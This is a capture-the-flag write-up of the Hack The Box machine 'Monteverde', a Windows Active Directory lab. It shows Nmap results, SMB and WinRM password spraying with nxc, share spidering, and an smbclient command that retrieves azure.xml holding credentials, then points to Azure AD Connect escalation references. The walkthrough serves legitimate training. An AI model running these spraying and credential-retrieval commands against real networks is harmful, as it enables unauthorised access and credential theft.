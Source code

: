 ```yaml
---
title: "Monteverde"
date: 2024-06-19
categories: HTB
tags: ["ctf", "penetration testing", "htb", "cybersecurity", "htb writeup", "monteverde", "htb walkthrough", "hackthebox", "writeup"]
---
```


Monteverde simulates a corporate Active Directory with AzureAD synchronization artifacts and group misconfigurations.
After enumerating LDAP and SMB, credentials were recovered from shared files and used to authenticate against WinRM.
Privilege escalation was done through a service account with overly permissive rights tied to Azure sync operations.
The box required chaining multiple authentication vectors and using enumeration tools like BloodHound to map relationships.
Monteverde illustrates how hybrid cloud setups can introduce complex trust paths — and how attackers exploit them.

OS: Windows(AD)

Difficulty: Medium

## Enumeration

### Nmap

```sh
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 (generic dns response: SERVFAIL)
| fingerprint-strings: 
|   DNS-SD-TCP: 
|     _services
|     _dns-sd
|     _udp
|_    local
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-03-31 21:45:49Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49673/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49676/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49693/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49749/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
```

### SMB
>- Enum4linux result showed a bunch of usernames
- password spraying SMB with username.txt as username and username.txt as password did not return any hits
 
```sh
nxc smb megabank.local -u username.txt -p username.txt --shares
```

![screenshot](/assets/images/monteverde2.png)

![screenshot](/assets/images/monteverde3.png)

```sh
nxc smb megabank.local -u SABatchJobs -p SABatchJobs -M spider_plus

# download a single file
smbclient -U SABatchJobs //10.10.10.172/users$ SABatchJobs -c 'get mhope/azure.xml azure.xml'
```

![screenshot](/assets/images/monteverde4.png)

azure.xml

![screenshot](/assets/images/monteverde5.png)

```sh
nxc winrm megabank.local -u username.txt -p password.txt --continue-on-success
```

![screenshot](/assets/images/monteverde6.png)

### HTTP-5985

> raft-medium-lowercase did not return any results.

## Foothold

![screenshot](/assets/images/monteverde8.png)

## Privilege Escalation

### WinPEAS

>- AV enabled

![screenshot](/assets/images/monteverde9.png)

### Manual Enumeration

mhope

![screenshot](/assets/images/monteverde10.png)

![screenshot](/assets/images/monteverde11.png)

https://github.com/Azure/azure-powershell/issues/9649

https://www.lares.com/blog/hunting-azure-admins-for-vertical-escalation/





